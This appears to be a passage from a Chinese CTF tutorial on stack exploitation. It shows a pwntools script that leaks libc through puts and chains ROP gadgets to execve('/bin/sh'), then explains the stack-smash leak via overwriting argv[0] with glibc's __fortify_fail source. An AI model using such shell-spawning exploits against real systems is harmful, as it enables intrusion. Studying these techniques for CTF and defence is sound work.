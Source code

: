 ```python
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279


payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```

总的来说这种方法跟 stack pivot 差别并不是很大

### 参考阅读

- [http://www.xfocus.net/articles/200602/851.html](http://www.xfocus.net/articles/200602/851.html)
- [http://phrack.org/issues/58/4.html](http://phrack.org/issues/58/4.html)

## Stack smash

### 原理


在程序加了canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 __stack_chk_fail 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

所以说如果我们利用栈溢出覆盖 argv[0] 为我们想要输出的字符串的地址，那么在 __fortify_fail 函数中就会输出我们想要的信息。
